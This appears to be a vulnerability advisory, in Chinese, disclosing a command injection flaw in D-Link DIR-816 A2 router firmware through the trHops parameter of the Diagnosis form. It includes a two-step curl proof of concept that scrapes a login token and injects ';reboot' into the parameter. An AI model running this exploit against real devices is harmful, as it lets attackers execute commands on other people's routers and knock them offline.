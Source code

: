 # Dlink DIR-816 命令注入漏洞
## Overview
- 厂商网址：https://www.dlink.com/
- 固件下载地址：http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## Vulnerability information
Dlink DIR-816A2_FWv1.10CNB05中存在一个命令注入漏洞，可以在路由系统中执行任意命令。

## Affected version

![](pic/version.png "")

图中显示了路由器的最新固件:A2_FWv1.10CNB05
## Vulnerability details
在webs上可以看到硬件版本是A2 1.10。

![](pic/web.png "")

在goahead中，我们可以在sub_45AC4C中找到代码细节，程序将trHops参数获取的内容传递给V6。

![](pic/code1.png "")

然后，通过snprintf函数将V6的匹配内容格式化为V10。

![](pic/code2.png "")

V10参数由函数doSystembk()调用,存在命令注入漏洞

## Vulnerability exploitation condition
需要获取cookie来执行攻击，并将doType设置为非0。

## Recurring vulnerabilities and POC
为了重现该漏洞，可以遵循以下步骤:
1. 连接物理设备
2. 使用以下shell命令进行攻击

Poc如下
```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```
```bash
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=$TOKENID -d 'pingAddr=192.168.0.1' -d 'doType=1' -d 'trHops=8;reboot'
```
运行poc后，效果如下，路由器重启，无发连接到路由器。

![](pic/effect3.png "")


## CVE-ID
unsigned
